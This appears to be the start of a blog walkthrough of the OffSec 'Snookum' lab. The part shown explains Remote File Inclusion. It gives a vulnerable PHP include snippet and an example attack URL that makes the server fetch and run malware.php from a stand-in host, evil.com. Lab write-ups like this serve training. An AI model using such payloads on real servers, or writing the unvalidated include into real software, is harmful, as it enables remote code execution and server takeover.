 +++ 
draft = false
date = 2025-03-16T13:07:16+01:00
title = "Snookum Offsec Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Remote File Inclusion", "Privilege Escalation", "Feroxbuster", "CyberChef", "MySQL Credential Extraction", "LinPEAS", "Base64 Password Decoding", "Writable /etc/passwd Exploit"]


categories = []
externalLink = ""
series = ["Offsec"]
+++

## Snookum OffSec Walkthrough

### RFI Vulnerability

Remote File Inclusion (RFI) is a vulnerability in web applications that allows an attacker to upload and execute files hosted on external servers. This flaw occurs when an applicationdynamically includes files without properly validating user input, which can lead to the execution of malicious code. If proper security measures are not taken, RFI can completely compromise a system, facilitating data theft, malware execution, or even full control of the server.

Some web applications allow users to choose which file to upload via a URL. If the application uses functions such as include() or require() in PHP without proper restrictions, an attacker can exploit this vulnerability.

For example, an application that uploads files based on a URL parameter:

<http://example.com/index.php?file=pagina.php>

If the source code does not verify the origin of the file:
```php
<?php

include($GET['file']);

?>
```

An attacker could modify the file parameter to include a malicious remote file:

    -   http://example.com/index.php?file=http://evil.com/malware.php

This would cause the server to download and execute the malware.php code, allowing the attacker to take control of the system or execute arbitrary commands.

### Consequences of an RFI Attack

Potential consequences of exploiting this vulnerability include:

- Remote Code Execution (RCE): The attacker can execute commands on the compromised server.
- Malware installation: Malicious scripts can be hosted to attack other users or systems.
- Theft of sensitive information: Critical credentials, databases, and files can be exposed.
- Server compromise: The attacker can take full control of the system and use it to launch other attacks.
